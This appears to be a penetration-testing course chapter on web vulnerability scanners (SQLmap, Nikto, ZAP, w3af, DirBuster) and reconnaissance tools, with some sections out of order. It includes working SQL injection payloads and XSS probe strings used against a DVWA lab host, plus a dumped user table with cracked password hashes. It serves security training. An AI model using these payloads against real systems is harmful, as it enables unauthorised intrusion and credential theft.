Let's take a look at a quick example of how to use SQLmap to exploit an SQL injection vulnerability. Say that a host with IP address 10.1.1.14 is vulnerable to SQL injection. In order to automate the enumeration and exploitation of this vulnerability, you first connect to the vulnerable application and capture the HTTP GET request by using a proxy. (Module 6 describes how proxies work.) Example 10-15 shows the captured HTTP GET request to the vulnerable server (10.1.1.14).
Example 10-15 — HTTP GET Request to a Vulnerable Web Application
Host: 10.1.1.14
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.1.1.14/dvwa/vulnerabilities/sqli/
Cookie: security=low; PHPSESSID=1558e11b491da91be3b68e5cce953ca4
Connection: close
Upgrade-Insecure-Requests: 1
The first highlighted line in Example 10-15 shows the GET request's URI. The second highlighted line shows the cookie and the session ID (PHPSESSID=1558e11b491da91be3b68e5cce953ca4). You can use this information to launch the SQLmap tool, as shown in Example 10-16.
Example 10-16 — Using the SQLmap Tool to Exploit an SQL Injection Vulnerability
___
__H__
___ ___[.]_____ ___ ___ {1.2.4#stable}
|_ -| . [)] | .'| . |
|___|_ [.]_|_|_|__,| _|
|_|V |_| http://sqlmap.org
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] starting at 21:49:11
[21:49:11] [INFO] testing connection to the target URL
[21:49:11] [INFO] testing if the target URL content is stable
[21:49:12] [INFO] target URL content is stable
[21:49:12] [INFO] testing if GET parameter 'id' is dynamic
...
<output omitted for brevity>
...
[21:50:12] [INFO] target URL appears to have 2 columns in query
[21:50:12] [INFO] GET parameter 'id' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[21:50:12] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
sqlmap identified the following injection point(s) with a total of 201 HTTP(s) requests:
---
Parameter: id (GET)
Type: boolean-based blind
Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment) (NOT)
Payload: id=omar' OR NOT 3391=3391#&Submit=Submit
Type: error-based
Title: MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)
Payload: id=omar' OR ROW(5759,9381)>(SELECT COUNT(*),CONCAT(0x7162717871,(SELECT (ELT(5759=5759,1))),0x716a717671,FLOOR(RAND(0)*2))x FROM (SELECT 5610 UNION SELECT 4270 UNION SELECT 5009 UNION SELECT 5751)a GROUP BY x)-- AxAS&Submit=Submit
Type: AND/OR time-based blind
Title: MySQL >= 5.0.12 OR time-based blind
Payload: id=omar' OR SLEEP(5)-- dxIW&Submit=Submit
Type: UNION query
Title: MySQL UNION query (NULL) - 2 columns
Payload: id=omar' UNION ALL SELECT CONCAT(0x7162717871,0x6a4752487050494664786251457769674b666b4f745668437 56e766764785546795679694159677a,0x716a717671),NULL#&Submit=Submit
---
[21:50:22] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
web application technology: PHP 5.2.4, Apache 2.2.8
back-end DBMS: MySQL >= 4.1
[21:50:22] [INFO] fetching database names
available databases [7]:
[*] dvwa
[*] information_schema
[*] metasploit
[*] mysql
[*] owasp10
[*] tikiwiki
[*] tikiwiki195
[21:50:22] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.1.1.14'
[*] shutting down at 21:50:22
The first four highlighted lines in Example 10-16 show how SQLmap automates the various tests and payloads sent to the vulnerable application. (You might recognize some of these SQL statements and queries from Module 6.) The last few highlighted lines show how SQLmap was able to enumerate all the databases in the SQL server.
When you have a list of all available databases, you can try to retrieve the tables and records of the dvwa database by using the command shown in Example 10-17.
Example 10-17 — Retrieving Sensitive Information from a Database
___
...
<output omitted for brevity>
...
[22:14:51] [INFO] resuming back-end DBMS 'mysql'
[22:14:51] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
Type: boolean-based blind
Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment) (NOT)
Payload: id=omar' OR NOT 3391=3391#&Submit=Submit
Type: error-based
Title: MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)
Payload: id=omar' OR ROW(5759,9381)>(SELECT COUNT(*),CONCAT(0x7162717871,(SELECT (ELT(5759=5759,1))),0x716a717671,FLOOR(RAND(0)*2))x FROM (SELECT 5610 UNION SELECT 4270 UNION SELECT 5009 UNION SELECT 5751)a GROUP BY x)-- AxAS&Submit=Submit
Type: AND/OR time-based blind
Title: MySQL >= 5.0.12 OR time-based blind
Payload: id=omar' OR SLEEP(5)-- dxIW&Submit=Submit
Type: UNION query
Title: MySQL UNION query (NULL) - 2 columns
Payload: id=omar' UNION ALL SELECT CONCAT(0x7162717871,0x6a4752487050494664786251457769674b666b4f7456684375 6e766764785546795679694159677a,0x716a717671),NULL#&Submit=Submit
---
[22:14:52] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
web application technology: PHP 5.2.4, Apache 2.2.8
back-end DBMS: MySQL >= 4.1
[22:14:52] [INFO] fetching tables for database: 'dvwa'
[22:14:52] [WARNING] reflective value(s) found and filtering out
[22:14:52] [INFO] fetching columns for table 'users' in database 'dvwa'
[22:14:52] [INFO] fetching entries for table 'users' in database 'dvwa'
[22:14:52] [INFO] recognized possible password hashes in column 'password'
...
<output omitted for brevity>
...
[22:15:06] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[22:15:06] [INFO] starting 2 processes
[22:15:08] [INFO] cracked password 'charley' for hash '8d3533d75ae2c3966d7e0d4fcc69216b'
[22:15:08] [INFO] cracked password 'abc123' for hash 'e99a18c428cb38d5f260853678922e03'
[22:15:11] [INFO] cracked password 'password' for hash '5f4dcc3b5aa765d61d8327deb882cf99'
[22:15:13] [INFO] cracked password 'letmein' for hash '0d107d09f5bbe40cade3de5c71e9e9b7'
Database: dvwa
Table: users
[5 entries]
+---------+--------+----------------------------------------------------+---------------------------------------------+-----------+------------+
| user_id | user | avatar | password | last_name | first_name |
+---------+--------+----------------------------------------------------+---------------------------------------------+-----------+------------+
| 1 | admin | http://172.16.123.129/dvwa/hackable/users/admin.jpg | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | admin | admin |
| 2 | gordonb| http://172.16.123.129/dvwa/hackable/users/gordonb.jpg| e99a18c428cb38d5f260853678922e03 (abc123) | Brown | Gordon |
| 3 | 1337 | http://172.16.123.129/dvwa/hackable/users/1337.jpg | 8d3533d75ae2c3966d7e0d4fcc69216b (charley) | Me | Hack |
| 4 | pablo | http://172.16.123.129/dvwa/hackable/users/pablo.jpg | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein) | Picasso | Pablo |
| 5 | smithy | http://172.16.123.129/dvwa/hackable/users/smithy.jpg | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | Smith | Bob |
+---------+--------+----------------------------------------------------+---------------------------------------------+-----------+------------+
[22:15:17] [INFO] table 'dvwa.users' dumped to CSV file '/root/.sqlmap/output/10.1.1.14/dump/dvwa/users.csv'
[22:15:17] [INFO] fetching columns for table 'guestbook' in database 'dvwa'
[22:15:17] [INFO] fetching entries for table 'guestbook' in database 'dvwa'
Database: dvwa
Table: guestbook
[1 entry]
+------------+------+-------------------------+
| comment_id | name | comment |
+------------+------+-------------------------+
| 1 | test | This is a test comment. |
+------------+------+-------------------------+
[22:15:17] [INFO] table 'dvwa.guestbook' dumped to CSV file '/root/.sqlmap/output/10.1.1.14/dump/dvwa/guestbook.csv'
[22:15:17] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.1.1.14'
[*] shutting down at 22:15:17
The first four highlighted lines in Example 10-17 show how SQLmap was able to automatically enumerate users from the compromised database and crack their passwords. The rest of the highlighted lines show the contents (records) of the two tables in the database (users and guestbook).
You can practice your penetration testing skills by using tools such as SQLmap against vulnerable applications. The Art of Hacking GitHub repository includes a list of vulnerable servers and applications that you can download and use to practice your skills in a safe environment; see https://github.com/The-Art-of-Hacking/art-of-hacking/tree/master/vulnerable_servers.
Instead of just launching tools against vulnerable applications, try to read the debugging messages and understand what the tool is doing. For instance, in Example 10-16 and Example 10-17, you can see the different SQL statements that are being sent to the vulnerable application and subsequently to the SQL server.
You can obtain access to SQLmap's source code and additional documentation at the following GitHub repository: https://github.com/sqlmapproject/sqlmap.
Nikto
Nikto is an open-source web vulnerability scanner that can be downloaded from https://github.com/sullo/nikto. Nikto's official documentation can be accessed at https://cirt.net/nikto2-docs. Example 10-18 shows the first few lines of Nikto's man page.
Example 10-18 — Nikto's Man Page
nikto - Scan web server for known vulnerabilities
SYNOPSIS
/usr/local/bin/nikto [options...]
DESCRIPTION
Examine a web server to find potential problems and security vulnerabilities, including:
· Server and software misconfigurations
· Default files and programs
· Insecure files and programs
· Outdated servers and programs
Nikto is built on LibWhisker (by RFP) and can run on any platform which has a Perl environment. It supports SSL, proxies, host authentication, IDS evasion and more. It can be updated automatically from the command-line, and supports the optional submission of updated version data back to the maintainers.
Example 10-19 demonstrates how Nikto can be used to scan a web application hosted at 10.1.1.14.
Example 10-19 — Using Nikto to Scan a Web Application
- Nikto v2.1.6
----------------------------------------------------------------------
+ Target IP: 10.1.1.14
+ Target Hostname: 10.1.1.14
+ Target Port: 80
+ Start Time: 2018-06-23 22:43:36 (GMT-4)
----------------------------------------------------------------------
+ Server: Apache/2.2.8 (Ubuntu) DAV/2
+ Retrieved x-powered-by header: PHP/5.2.4-2ubuntu5.10
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.2.8 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.php
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ /phpinfo.php?VARIABLE=<script>alert('Vulnerable')</script>: Output from the phpinfo() function was found.
+ OSVDB-3268: /doc/: Directory indexing found.
+ OSVDB-48: /doc/: The /doc/ directory is browsable. This may be /usr/doc.
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F36-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3092: /phpMyAdmin/changelog.php: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ Server leaks inodes via ETags, header found with file /phpMyAdmin/ChangeLog, inode: 92462, size: 40540, mtime: Tue Dec 9 12:24:00 2008
+ OSVDB-3092: /phpMyAdmin/ChangeLog: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3268: /test/: Directory indexing found.
+ OSVDB-3092: /test/: This might be interesting...
+ /phpinfo.php: Output from the phpinfo() function was found.
+ OSVDB-3233: /phpinfo.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ OSVDB-3268: /icons/: Directory indexing found.
+ /phpinfo.php?GLOBALS[test]=<script>alert(document.cookie);</script>: Output from the phpinfo() function was found.
+ /phpinfo.php?cx[]=IOzakRqlfmAcDXV97rNweHX81i3EERZyB9QwbErBoKuXBfztr0JwhnvhOXnXjdBB5bXkfIz5Iwj5CXlPe4CnYKRMsjiGPRSXfgqsokk7wrFaUWpCLQKjcPLbJDxIFik6KhmGyZaF5
...
<output omitted for brevity>
...
<script>alert(foo)</script>: Output from the phpinfo() function was found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /phpMyAdmin/: phpMyAdmin directory found
+ OSVDB-3092: /phpMyAdmin/Documentation.html: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ 8329 requests: 0 error(s) and 29 item(s) reported on remote host
+ End Time: 2018-06-23 22:44:07 (GMT-4) (31 seconds)
----------------------------------------------------------------------
+ 1 host(s) tested
You can automate the scanning of multiple hosts by using Nmap and Nikto together. For example, you can scan the 10.1.1.0/24 subnet with Nmap and then pipe the results to Nikto, as demonstrated in Example 10-20.
Example 10-20 — Combining Nmap and Nikto to Scan a Full Subnet
- Nikto v2.1.6
----------------------------------------------------------------------
+ nmap Input Queued: 10.1.1.11:80
+ nmap Input Queued: 10.1.1.12:80
+ nmap Input Queued: 10.1.1.14:80
+ Target IP: 10.1.1.12
+ Target Hostname: 10.1.1.12
+ Target Port: 80
+ Start Time: 2018-06-23 22:56:15 (GMT-4)
<output omitted for brevity>
+ 22798 requests: 0 error(s) and 29 item(s) reported on remote host
+ End Time: 2018-06-23 22:57:00 (GMT-4) (30 seconds)
----------------------------------------------------------------------
+ 3 host(s) tested
OWASP Zed Attack Proxy (ZAP)
According to OWASP, OWASP Zed Attack Proxy (ZAP) "is one of the world's most popular free security tools and is actively maintained by hundreds of international volunteers." Many offensive and defensive security engineers around the world use ZAP, which not only provides web vulnerability scanning capabilities but also can be used as a sophisticated web proxy. ZAP comes with an API and also can be used as a fuzzer. You can download and obtain more information about OWASP ZAP from https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project.
Figure 10-16 shows an active scan against a web server with IP address 10.1.1.14.
Figure 10-17 shows a few of the results of the scan. The vulnerability highlighted in Figure 10-17 is a path traversal vulnerability. Numerous other vulnerabilities were also found by ZAP. ZAP Spider automatically discovers URLs on the site that is being tested. It starts with a list of URLs to visit, called "seeds." ZAP Spider then attempts to access these URLs, identifies all the hyperlinks in the page, and adds the hyperlinks to the list of URLs to visit; the process continues recursively as long as new resources are found. During the processing of a URL, ZAP Spider makes a request to access a resource and then parses the response.


w3af
Another popular open-source web application vulnerability scanner is w3af. w3af can be downloaded from https://github.com/andresriancho/w3af, and its documentation can be obtained from https://docs.w3af.org/en/latest/.
Example 10-21 shows the help menu of the w3af console.
Example 10-21 — The Help Menu of the w3af Console
|-----------------------------------------------------------------------|
| start | Start the scan. |
| plugins | Enable and configure plugins |
| exploit | Exploit the vulnerability |
| profiles | List and use scan profiles. |
| cleanup | Cleanup before starting a new scan. |
|-----------------------------------------------------------------------|
| help | Issuing: help [command], prints more specific help about "command" |
| version | Show w3af version information. |
| keys | Display key shortcuts. |
|-----------------------------------------------------------------------|
| http-settings | Configure the HTTP settings of the framework. |
| misc-settings | Configure w3af misc settings. |
| target | Configure the target URL. |
|-----------------------------------------------------------------------|
| back | Go to the previous menu. |
| exit | Exit w3af. |
|-----------------------------------------------------------------------|
| kb | Browse the vulnerabilities stored in the Knowledge Base |
|-----------------------------------------------------------------------|
The w3af tool has a plugins menu that allows you to configure and enable mangle, crawl, bruteforce, audit, and other plugins. Example 10-22 shows the w3af plugins help menu.
Example 10-22 — The w3af Plugins Help Menu
w3af/plugins>>> help
|---------------------------------------------------------------------|
| list | List available plugins. |
|---------------------------------------------------------------------|
| back | Go to the previous menu. |
| exit | Exit w3af. |
|---------------------------------------------------------------------|
| mangle | View, configure and enable mangle plugins |
| crawl | View, configure and enable crawl plugins |
| bruteforce | View, configure and enable bruteforce plugins |
| audit | View, configure and enable audit plugins |
| output | View, configure and enable output plugins |
| evasion | View, configure and enable evasion plugins |
| infrastructure | View, configure and enable infrastructure plugins |
| auth | View, configure and enable auth plugins |
| grep | View, configure and enable grep plugins |
|-------------------------------------------------------------------|
w3af/plugins>>>
When you are in the plugins mode, you can use the list audit command to list all the available audit plugins, as demonstrated in Example 10-23. You can also do this for any other plugin category.
Example 10-23 — The w3af list audit Command
|---------------------------------------------------------------------|
| Plugin name | Status | Conf | Description |
|---------------------------------------------------------------------|
| blind_sqli | | Yes | Identify blind SQL injection vulnerabilities. |
| buffer_overflow | | | Find buffer overflow vulnerabilities. |
| cors_origin | | Yes | Inspect if application checks that the value of the "Origin" HTTP header is consistent with the value of the remote IP address/Host of the sender of the incoming HTTP request. |
| csrf | | | Identify Cross-Site Request Forgery vulnerabilities. |
| dav | | | Verify if the WebDAV module is properly configured. |
| eval | | Yes | Find insecure eval() usage. |
| file_upload | | Yes | Uploads a file and then searches for the file inside all known directories. |
| format_string | | | Find format string vulnerabilities. |
| frontpage | | | Tries to upload a file using frontpage extensions (author.dll). |
| generic | | Yes | Find all kind of bugs without using a fixed database of errors. |
| global_redirect | | | Find scripts that redirect the browser to any site. |
| htaccess_methods | | | Find misconfigurations in Apache's "<LIMIT>" configuration. |
| ldapi | | | Find LDAP injection bugs. |
| lfi | | | Find local file inclusion vulnerabilities. |
| memcachei | | | No description available for this plugin. |
| mx_injection | | | Find MX injection vulnerabilities. |
| os_commanding | | | Find OS Commanding vulnerabilities. |
| phishing_vector | | | Find phishing vectors. |
| preg_replace | | | Find unsafe usage of PHPs preg_replace. |
| redos | | | Find ReDoS vulnerabilities. |
| response_splitting | | | Find response splitting vulnerabilities. |
| rfd | | | Identify reflected file download vulnerabilities. |
| rfi | | Yes | Find remote file inclusion vulnerabilities. |
| shell_shock | | | Find shell shock vulnerabilities. |
| sqli | | | Find SQL injection bugs. |
| ssi | | | Find server side inclusion vulnerabilities. |
| ssl_certificate | | Yes | Check the SSL certificate validity (if https is being used). |
| un_ssl | | | Find out if secure content can also be fetched using http. |
| websocket_hijacking | | | Detect Cross-Site WebSocket hijacking vulnerabilities.|
| xpath | | | Find XPATH injection vulnerabilities. |
| xss | | Yes | Identify cross site scripting vulnerabilities. |
| xst | | | Find Cross Site Tracing vulnerabilities. |
|---------------------------------------------------------------------|
Example 10-24 shows the w3af tool being configured to perform an SQL injection audit against the web server with IP address 10.1.1.14.
Example 10-24 — Launching an SQL Injection Audit Using w3af
w3af/plugins>>> back
w3af>>> target
w3af/config:target>>> set target http://10.1.1.14
w3af/config:target>>> back
The configuration has been saved.
w3af>>> start
For detailed w3af usage and customization, refer to https://docs.w3af.org/en/latest.
DirBuster
DirBuster is a tool that was designed to brute force directory names and filenames on web application servers. DirBuster is currently an inactive project, and its functionality has been integrated into and enhanced in OWASP ZAP as an add-on.
DirBuster is a Java application designed to brute force directories and filenames on web/application servers. Often what looks like a web server with a default installation actually has pages and applications hidden within it. DirBuster attempts to find these. Two additional alternatives to DirBuster are gobuster (https://github.com/OJ/gobuster) and ffuf (https://github.com/ffuf/ffuf). Keep in mind that tools of this nature are often only as good as the directory and file lists they come with.
10.2.6 Practice — Common Tools for Vulnerability Scanning
Match the vulnerability scanning tool to its description.
- Nessus — vulnerability scanner that has several features that perform continuous monitoring and compliance analysis
- Nikto — open-source web vulnerability scanner that examines a web server to find potential problems and security vulnerabilities
- OWASP ZAP — provides web vulnerability scanning capabilities but also can be used as a sophisticated web proxy
- OpenVAS — open-source vulnerability scanner that includes several services and tools that perform detailed vulnerability scanning against hosts and networks
The scope of the penetration testing agreement with a customer includes vulnerability scanning of the client's cloud presence. Which tool should you choose for the job?
True or False. w3af is a vulnerability scanner that can also perform exploits.
Which tool brute forces directories and filenames on web and application servers?
You are testing the Pixel Paradise web application for injection vulnerabilities. What tool will discover injection vulnerabilities and also launch exploits of the underlying databases?
10.2 Understanding the Different Use Cases of Penetration Testing Tools and Analyzing Exploit Code
10.2.1 Overview
One of the big challenges in our profession is finding the right tool for the job. As you have seen, there are many penetration testing tools available and some of them do many things. It is almost a full-time job keeping track of the tools, their functions, and how to use them. In addition, new tools are becoming available all the time, and old ones are becoming obsolete.
Penetration testers tend to settle on tools that have worked well for them in the past. It is impossible to learn and use all of the tools that are available. It is very useful, however, to understand what the most popular tools do and what tasks they are best suited for. From there, you can try them and learn, and then decide if you want to put them in your penetration testing toolbox.
The following are use cases for penetration testing tools:
- Reconnaissance
- Enumeration
- Vulnerability scanning
- Credential attacks
- Persistence
- Configuration compliance
- Evasion
- Decompilation
- Forensics
- Debugging
- Software assurance (including fuzzing, static application security testing [SAST], and dynamic application security testing [DAST])
The following sections cover the tools that are most commonly used in penetration testing engagements.
10.2.2 Penetration Testing-Focused Linux Distributions
Several Linux distributions include numerous penetration testing tools. The purpose of these Linux distributions is to make it easier for individuals to get started with penetration testing, without having to worry about software dependencies and compatibility issues that could be introduced when installing and deploying such tools. The following are the most popular penetration testing Linux distributions:
- Kali Linux
- Parrot OS
- BlackArch Linux
- BlackArch in Docker
Select each distribution for more information.
Kali Linux
Kali Linux is one of the most popular penetration testing distributions in the industry. It is based on Debian GNU/Linux, and it evolved from previous penetration testing Linux distributions (WHoppiX, WHAX, and BackTrack). A Kali Linux Live image on a CD/DVD/USB/PXE can give you access to a bare-metal installation. You can download Kali Linux from https://www.kali.org.
Kali Linux comes with hundreds of tools, and the community is constantly creating new ones and adding them to Kali. For the most up-to-date list of penetration testing tools included in Kali Linux, visit https://tools.kali.org.
Figure 10-1 shows the All Applications menu of Kali Linux, which lists all the major categories of tools included in the distribution.
Offensive Security released a free open-source book and course about how to install, customize, and use Kali Linux. The book and the course can be accessed at https://kali.training.
Parrot OS
Parrot OS is a Linux distribution that is based on Debian and focused on penetration testing, digital forensics, and privacy protection. You can download Parrot from https://www.parrotsec.org and access the documentation at https://docs.parrotsec.org.
Figure 10-2 shows a screenshot of the Parrot OS Applications menu and ecosystem.
BlackArch Linux
BlackArch Linux is a Linux distribution that comes with more than 1900 security penetration testing tools. You can download BlackArch Linux from https://blackarch.org and access the documentation at https://blackarch.org/guide.html. BlackArch Linux source code can be accessed at https://github.com/BlackArch/blackarch.
Figure 10-3 shows a screenshot of the BlackArch applications menu and ecosystem.
BlackArch in Docker
Figure 10-4 shows how to run BlackArch in a Docker container.
10.2.3 Common Tools for Reconnaissance and Enumeration
Module 3, "Information Gathering and Vulnerability Identification," covers some of the methodologies and tools that can be used for active and passive reconnaissance. The following sections discuss several additional tools that can be used for reconnaissance and enumeration.
Tools for Passive Reconnaissance
Passive reconnaissance involves attempting to gather information about a victim by using public information and records but not using any active tools like scanners or sending any packets to the victim. The industry often refers to publicly available information as open-source intelligence (OSINT).
OSINT often includes threat intelligence, and it can be used for both offensive and defensive security. In this section, when we talk about OSINT, we are talking about using it for offensive security (that is, penetration testing and ethical hacking).
The following sections describe some of the most popular passive reconnaissance and OSINT tools.
Nslookup, Host, and Dig
You can use DNS-based tools like Nslookup, Host, and Dig to perform passive reconnaissance. Example 10-1 shows Nslookup output for store.h4cker.org. This domain is a canonical name (CNAME) that is associated with pentestplus.github.io. The website is hosted on GitHub, and there are a few IP addresses that resolve to that name (185.199.108.153, 185.199.109.153, 185.199.110.153, and 185.199.111.153).
Example 10-1 — Using Nslookup for Passive Reconnaissance
Server: 172.18.108.34
Address: 172.18.108.34#53
Non-authoritative answer:
store.h4cker.org canonical name = pentestplus.github.io.
pentestplus.github.io canonical name = sni.github.map.fastly.net.
Name: sni.github.map.fastly.net
Address: 185.199.110.153
Name: sni.github.map.fastly.net
Address: 185.199.109.153
Name: sni.github.map.fastly.net
Address: 185.199.108.153
Name: sni.github.map.fastly.net
Address: 185.199.111.153
Example 10-2 shows the output of the Dig utility against the same website.
Example 10-2 — Using Dig for Passive Reconnaissance
; <<>> DiG 9.11.3-1ubuntu1.1-Ubuntu <<>> store.h4cker.org
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 11540
;; flags: qr rd ra; QUERY: 1, ANSWER: 6, AUTHORITY: 0, ADDITIONAL: 1
;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 65494
;; QUESTION SECTION:
;store.h4cker.org. IN A
;; ANSWER SECTION:
store.h4cker.org. 3600 IN CNAME pentestplus.github.io.
pentestplus.github.io. 3599 IN CNAME sni.github.map.fastly.net.
sni.github.map.fastly.net. 3599 IN A 185.199.111.153
sni.github.map.fastly.net. 3599 IN A 185.199.110.153
sni.github.map.fastly.net. 3599 IN A 185.199.109.153
sni.github.map.fastly.net. 3599 IN A 185.199.108.153
;; Query time: 262 msec
;; SERVER: 127.0.0.53#53(127.0.0.53)
;; WHEN: Mon Sep 03 22:02:37 UTC 2018
;; MSG SIZE rcvd: 183
omar@poseidon:~$
Whois
The Internet Corporation for Assigned Names and Numbers (ICANN) is the organization that supervises the Internet's domains and that created the Whois Data Problem Reporting System (WDPRS). Most Linux, Windows, and macOS versions support the Whois utility for querying the Whois database. You can also use Whois for reconnaissance. Unfortunately, because of the European Union's General Data Protection Regulation (GDPR), the Whois database has been restricted to protect privacy. Example 10-3 shows the output of the Whois utility when querying the h4cker.org domain.
Example 10-3 — Using Whois for Passive Reconnaissance
Domain Name: H4CKER.ORG
Registry Domain ID: D402200000006011258-LROR
Registrar WHOIS Server: whois.google.com
Registrar URL: http://domains.google.com
Updated Date: 2018-06-02T20:31:48Z
Creation Date: 2018-05-04T03:43:52Z
Registry Expiry Date: 2028-05-04T03:43:52Z
Registrar Registration Expiration Date:
Registrar: Google Inc.
Registrar IANA ID: 895
Registrar Abuse Contact Email: registrar-abuse@google.com
Registrar Abuse Contact Phone: +1.6502530000
Reseller:
Domain Status: serverTransferProhibited https://icann.org/epp#serverTransferProhibited
Registrant Organization: Contact Privacy Inc. Customer 1242605855
Registrant State/Province: ON
Registrant Country: CA
Name Server: NS-CLOUD-C1.GOOGLEDOMAINS.COM
Name Server: NS-CLOUD-C2.GOOGLEDOMAINS.COM
Name Server: NS-CLOUD-C4.GOOGLEDOMAINS.COM
Name Server: NS-CLOUD-C3.GOOGLEDOMAINS.COM
DNSSEC: signedDelegation
URL of the ICANN Whois Inaccuracy Complaint Form: https://www.icann.org/wicf/
>>> Last update of WHOIS database: 2018-06-23T20:11:03Z <<<
For more information on Whois status codes, please visit https://icann.org/epp
Access to Public Interest Registry WHOIS information is provided to assist persons in determining the contents of a domain name registration record in the Public Interest Registry registry database. The data in this record is provided by Public Interest Registry for informational purposes only, and Public Interest Registry does not guarantee its accuracy. This service is intended only for query-based access. You agree that you will use this data only for lawful purposes and that, under no circumstances will you use this data to (a) allow, enable, or otherwise support the transmission by e-mail, telephone, or facsimile of mass unsolicited, commercial advertising or solicitations to entities other than the data recipient's own existing customers; or (b) enable high volume, automated, electronic processes that send queries or data to the systems of Registry Operator, a Registrar, or Afilias except as reasonably necessary to register domain names or modify existing registrations. All rights reserved. Public Interest Registry reserves the right to modify these terms at any time. By submitting this query, you agree to abide by this policy.
Please query the RDDS service of the Registrar of Record identified in this output for information on how to contact the Registrant, Admin, or Tech contact of the queried domain name.
FOCA
Fingerprinting Organization with Collected Archives (FOCA) is a tool designed to find metadata and hidden information in documents. FOCA can analyze websites as well as Microsoft Office, Open Office, PDF, and other documents. You can download FOCA from https://github.com/ElevenPaths/FOCA. FOCA analyzes files by extracting EXIF (exchangeable image file format) information from graphics files, as well as information discovered through the URL of a scanned website.
ExifTool
ExifTool is a popular tool for extracting EXIF information from images. EXIF is a standard that defines the formats for images, sound, and ancillary tags used by digital equipment such as digital cameras, mobile phones, and tablets. You can download ExifTool from https://exiftool.org. Example 10-4 shows output from ExifTool when it is run against an image called omar_pic.jpg.
Example 10-4 — Using ExifTool
EXIF tags in 'omar_pic.jpg' ('Motorola' byte order):
---------------------+------------------------------------------------
Tag |Value
---------------------+------------------------------------------------
Manufacturer |Apple
Model |iPhone X
Orientation |Top-left
X-Resolution |72
Y-Resolution |72
Resolution Unit |Inch
Software |11.4
Date and Time |2018:06:23 16:42:26
Exposure Time |1/40 sec.
F-Number |f/1.8
Exposure Program |Normal program
ISO Speed Ratings |25
Exif Version |Exif Version 2.21
Date and Time (Origi |2018:06:23 16:42:26
Date and Time (Digit |2018:06:23 16:42:26
Components Configura |Y Cb Cr -
Shutter Speed |5.33 EV (1/40 sec.)
Aperture |1.70 EV (f/1.8)
Brightness |4.23 EV (64.49 cd/m^2)
Exposure Bias |0.00 EV
Metering Mode |Pattern
Flash |Flash did not fire, compulsory flash mode
Focal Length |4.0 mm
Subject Area |Within rectangle (width 2217, height 1330) around (x,y) =
Maker Note |986 bytes undefined data
Sub-second Time (Ori |293
Sub-second Time (Dig |293
FlashPixVersion |FlashPix Version 1.0
Color Space |sRGB
Pixel X Dimension |4032
Pixel Y Dimension |3024
Sensing Method |One-chip color area sensor
Scene Type |Directly photographed
Exposure Mode |Auto exposure
White Balance |Auto white balance
Focal Length in 35mm |28
Scene Capture Type |Standard
North or South Latit |N
Latitude |29, 94, 51.98
